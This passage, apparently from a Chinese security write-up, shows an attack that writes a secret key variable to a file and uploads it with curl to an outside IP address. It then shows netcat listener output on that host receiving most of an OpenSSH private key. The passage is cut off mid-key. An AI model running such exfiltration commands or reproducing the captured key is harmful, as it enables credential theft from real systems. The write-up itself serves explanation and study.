 ```plain
`echo "${KEY}" > key && curl -v -F file=@key http://121.5.169.223:39556`
```

[![](assets/1699929835-054f913854ea5971034b2d546821663f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231109134050-8a5b337e-7ec2-1.png)

服务器上可以收到key：

```plain
nc -lvvp 39556
Listening on [0.0.0.0] (family 0, port 39556)
Connection from 36.112.200.147 16519 received!
POST / HTTP/1.1
Host: 121.5.169.223:39556
User-Agent: curl/7.74.0
Accept: */*
Content-Length: 2805
Content-Type: multipart/form-data; boundary=------------------------ab4b01bd9df8bad8

--------------------------ab4b01bd9df8bad8
Content-Disposition: form-data; name="file"; filename="key"
Content-Type: application/octet-stream

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzKMQY9T7R2JBDjFuxCxQWxKI9Nf39EdewMpSYfgR4AslScEzJJX0
O3lfkq1jalL4zp066bFkU21M3p42hVgXnBrcVOR7JU3FiEFDw4qfE2CcJTXFHL4obAqFiy
cp6RxsIjRIoRz8zrBI57k8CyhqZK104xt79XDkWcDnA7lctBwq9Dq9vxsK8SqXvW4cJTu7
osoyMitO3RP3x0EYocsNNnTDNBj1JIMsfmSkOu503LFZqAuqhchKm7BcnpeOYT2qKRuFqv
BowklegCZRWZNWSVI1lGhUQQ3wDgEk0dqUPzHlOhDx4hNAeT/RXttllY+lxci00EFmjRs3
XXgculpXRs3cyC+T3Itn4rQoE5AV5191mIuwufozXCiGgFhOKfOmYe8ZHCcI09pmT2xZ9m
Cpq5VharLKHR3ku4yy3NEYZrOcNvhIfSlkFCTYV5IKXr9VcS3f+KMNrBgvEF0tEqo3sy87
1bbUInjCTViMvCS8G2uFQlnvMRiW4+FNyCcSUqpBAAAFkAzpeAEM6XgBAAAAB3NzaC1yc2
EAAAGBAMyjEGPU+0diQQ4xbsQsUFsSiPTX9/RHXsDKUmH4EeALJUnBMySV9Dt5X5KtY2pS
+M6dOumxZFNtTN6eNoVYF5wa3FTkeyVNxYhBQ8OKnxNgnCU1xRy+KGwKhYsnKekcbCI0SK
Ec/M6wSOe5PAsoamStdOMbe/Vw5FnA5wO5XLQcKvQ6vb8bCvEql71uHCU7u6LKMjIrTt0T
98dBGKHLDTZ0wzQY9SSDLH5kpDrudNyxWagLqoXISpuwXJ6XjmE9qikbharwaMJJXoAmUV
mTVklSNZRoVEEN8A4BJNHalD8x5ToQ8eITQHk/0V7bZZWPpcXItNBBZo0bN114HLpaV0bN
3Mgvk9yLZ+K0KBOQFedfdZiLsLn6M1wohoBYTinzpmHvGRwnCNPaZk9sWfZgqauVYWqyyh
0d5LuMstzRGGaznDb4SH0pZBQk2FeSCl6/VXEt3/ijDawYLxBdLRKqN7MvO9W21CJ4wk1Y
jLwkvBtrhUJZ7zEYluPhTcgnElKqQQAAAAMBAAEAAAGAResRFosWr/UqNSc+qVhavENA+C
cyWQxpm4WFUGPp95rXSrPwPXfe0tNNjFght5pR2IZwMpihpr+ZnBaCmlzW9EdZMMhAKya/
byadeJpMb9p6f1w31PJD7WZK6pifAT7s02L5zdKRri0dO89WbJmKgIujfFVPrTS9UM1QIT
2cJw3Yv0myuzEKNAxRfC+6/h3CpoRfUjTp5S+FYVcki2NNSGXsrEg6uhb3hNfuJRSEaUNP
VtNlmAAvPbKscqNlymO+u1EP9W34UDRCNqGdLZxFs651a50qmmQvTAMYHCOTFUE3ChGnEI
BGLEtsOkYKlEnQg5qQIHKLJExH0a2b0fVFrGK7dcVK3kc7xLgGwvxuFvKl4DeMgCX5q85g
02Mu9Odcsio7t6Go6sXTiB3V/Idbzcp3zbO3B76AQDzhjzTtGYONPR+aDthfnJIJhyxRJg
maE9IHWIpiWe0gzjnSs4HBGqF0F6Rr/XIbjN/53wBmyMO6eVq2wAHbRu/NEgisctfhAAAA
wQCuImeTnL8fGofb3jTAYeckTPiUsM2RsshSbwlZaX3TR4TWNu0mcc94hYButIcG2SMVXc
F4i9jl6cdgAff43uoPy8GKiGc9jF4eylky4c4fgw7EzbtFMPmpFnteA/Oh0SxlxhmUDVHU
mxRkssDSI7Zif6z2KaT3Z9yK92y/265Sm2gkIUshm2BNplgssCdIkNtqZaePBmHr6/09oJ
hRSJmmgkesx7TJ9BqVuuiZdn3E71XNHsbBOyD08cLrZEoNtjkAAADBAPKW8trXU/H85DOl
```